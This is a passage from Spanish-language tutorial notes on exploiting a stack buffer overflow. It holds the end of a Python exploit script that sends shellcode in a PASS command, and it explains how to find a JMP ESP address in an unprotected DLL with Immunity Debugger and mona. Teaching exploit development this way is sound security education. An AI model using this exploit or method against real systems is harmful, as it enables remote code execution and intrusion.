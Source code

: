 ```python
b"\x33\x45\xb4\xa1\xea\x0c\x75\xac\x0c\xfb\xba\xc9\x8e\x09"
b"\x43\x2e\x8e\x78\x46\x6a\x08\x91\x3a\xe3\xfd\x95\xe9\x04"
b"\xd4")

payload = before_eip + eip + shellcode 


def exploit():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, port))
    banner = s.recv(1024)

    s.send(b"USER test" + b'\r\n')
    response = s.recv(1024) 
    s.send(b"PASS " + payload + b'\r\n')
    s.close()

if __name__ == '__main__':

    exploit()
```

------

Nuestro objetivo ahora es **cambiar el valor** del **EIP**, ya que con este **tendremos que apuntar a la dirección/address** de donde se encuentra nuestro Shellcode en **la pila**. Recordemos que el problema radica en que no podemos simplemente apuntar a la dirección actual del ESP, si no que tendremos que utilizar una dirección que aplique como **Opcode** un **salto** al ESP, ya que de lo contrario no llegaremos. 

Para nosotros **encontrar** esa dirección especifica que aplique como Opcode un salto al ESP debemos hacer lo siguiente.

En el **Immunity Debugger** en el campo de entrada inferior colocaremos ``!mona modules``, dentro de todos los módulos que nos aparecen veremos que poseen diferentes **protecciones**, estas las notamos observando en la parte superior (``Rebase``, ``SafeSEH``, ``ASLR``, ``CFG``, ``NXCompat``, ``OS Dll``), la idea es que nosotros utilicemos un modulo que las **primeras cuatro** las tenga en **False**.

![[BOF 22.png]]

Una vez identificamos el modulo que nos interese (==Que es importante que recordemos su nombre== ``SLMFC.DLL``) lo que haremos será intentar buscar una instrucción de tipo ``JMP ESP`` para ver si dentro de esta **DLL** hay una dirección que aplique este **Opcode**, de esta manera hacemos que el **EIP** apunte a esta dirección y de esa forma **se aplique un salto al ESP**. 

El **Opcode** correspondiente al JMP ESP debemos saber cual es, esto lo podemos ver a través de la **herramienta** de Metasploit ``/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb`` y luego escribiendo ``jmp ESP``.

![[BOF 23.png]]
